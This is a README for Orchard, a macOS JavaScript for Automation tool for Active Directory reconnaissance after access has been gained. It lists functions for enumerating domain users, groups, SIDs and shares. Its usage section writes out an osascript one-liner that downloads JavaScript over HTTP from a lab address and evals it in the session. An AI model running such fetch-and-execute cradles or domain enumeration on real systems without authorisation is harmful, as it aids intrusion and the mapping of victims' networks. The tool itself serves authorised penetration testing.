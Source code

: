 # Orchard
JavaScript for Automation (JXA) tool to do Active Directory enumeration.

# Purpose
Live off the land for macOS. This program allows users to do Active Directory enumeration via macOS' JXA (JavaScript for Automation) code. This is the newest version of AppleScript, and thus has very poor documentation on the web. 

# Execution
Host the Orchard.js code somewhere you can access and pull it into a scripting session like so:
```JavaScript
testmac: ~$ osascript -l JavaScript -i
>> eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.56.1:8080/Orchard.js')),$.NSUTF8StringEncoding)));
=> true
>> Get_CurrentDomain();
=> "test.local"
>>
```
This requires the user to already have execution on the machine. Additionally, the capitalization for JavaScript in the first command is extremely important. **All of JXA is case sensitive.** The second line does an HTTP GET request for Orchard.js and loads the functions into the current session. If you just want to execute a single line (if there's only one function you want to execute for example) you can do the following instead:
```JavaScript
testmac: ~$ osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.56.1:8080/Orchard.js')),$.NSUTF8StringEncoding))); Get_CurrentDomain();"
```

## Execution Methods
All of the commands provide an API parameter. Right now they all default to *false* and changing them to *true* won't do anything. My first goal was to get everything implemented using the native macOS binaries, then I will go back and start implementing the same techniques using the Objective-C bridge to leverage API calls.

This means that every command does the following: `currApp.doShellScript(command);`. This will execute the necessary shell commands to accomplish the function goals. **Note:** From my testing, this doesn't spawn a Terminal.app window, but I make no guarantees.

## Calling a Function
After you've imported the Orchard.js code into your current session, you can call any of the functions with a slight tweak to normal JavaScript function calls. I wanted to make the code a bit more python-esque, so I modified the calling convention. You'll see functions defined as:

`function ConvertTo_SID({API=false, object=".\\root", type="Users"} = {}) { code here; }`. This allows me to provide default values (if desired) to each function parameter as well as preventing them from being positional arguments like standard function calls. To call this function, simply do any of the following:
```JavaScript
ConvertTo_SID(); //Uses all of the default values to call the function
ConvertTo_SID({object:"TEST\\Domain Admins", type:"Groups"}); //leaves API as false, but sets object and type
ConvertTo_SID({type:"Groups",object:"TEST\\Domain Admins"}); //same as above - the order of the arguments doesn't matter
```
**Note1:** In defining a function this way, it's "name=value", but when calling the function it's "name:value". It's a little odd, I know, but you're most likely going to be just calling functions anyway.

**Note2:** Every function has a Help flag that can be used to get information about how to run the function

# Functions
| Function | Version Introduced | Description|
| ---------|:------------------|:-----------|
| ConvertTo_SID |1.0 |Convert Users, Groups, Or Computers to domain or local SIDs |
| ConvertFrom_SID |1.0 |Convert Users, Groups, or Computers from SIDs to names |
| Get_PathAcl |1.0 |Get linux and mac specific ACLs on a file or folder |
| Get_PathXattr |1.0 |Get mac specific extended attributes on a file or folder |
| Get_MountedVolumes |1.0 |Get the mounted volumes on the current computer |
| Set_MountVolume |1.0 |Mount a remote share on the current computer |
| Get_DomainUser |1.0 |List all domain users or get information on a specific user |
| Get_DomainComputer |1.0 |List all domain computers or get information on a specific computer |
| Get_LDAPSearch |1.0 |Execute a customized LDAP search query |
| Get_DomainOU |1.0 |List all domain organizational units or get information on a specific unit |
| Get_DomainSID |1.0 |Gets the SID of the domain by truncating the SID for the "Domain Admins" group |
| Get_DomainGroup |1.0 |List all domain groups or get information on a specific group |
| Get_DomainGroupMember |1.0 |Get all the members of a specific domain group |
| Get_CurrentDomain |1.0 |Get the fully qualified current domain |
| Get_CurrentNETBIOSDomain |1.0 |Get the NETBIOS name of the current domain |
| Get_Forest |1.0 |Get the fully qualified forest name |
